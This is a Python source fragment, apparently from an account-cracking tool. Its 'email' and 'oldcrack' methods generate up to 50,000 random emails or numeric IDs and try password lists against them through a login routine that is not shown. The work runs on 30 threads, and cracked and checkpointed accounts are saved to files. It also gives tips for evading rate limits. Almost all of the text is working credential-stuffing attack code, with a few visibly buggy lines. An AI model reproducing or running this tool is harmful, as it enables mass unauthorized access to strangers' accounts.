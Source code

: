 
	def email(self):
		x = 111
		xx = 999
		nam = input("%s [?] TYPE A NAME %s(EX:fahim ", " SNIGDHO): "%(Y,G))
		nam = nam.replace(" ", "")
		print("%s EXAMPLE  : %s@gmail.com, @yahoo.com, @hotmail.com ETC"%(Y,G))
		idx = input("%s DOMAIN  : "%(B))
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				___ = nam
				self.id.append(___+str(_)+__)
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 
				listpass = input(" [?] ENTER PASSWORD : ")
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULT SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		
	def oldcrack(self):
		x = 11111111
		xx = 99999999
		idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		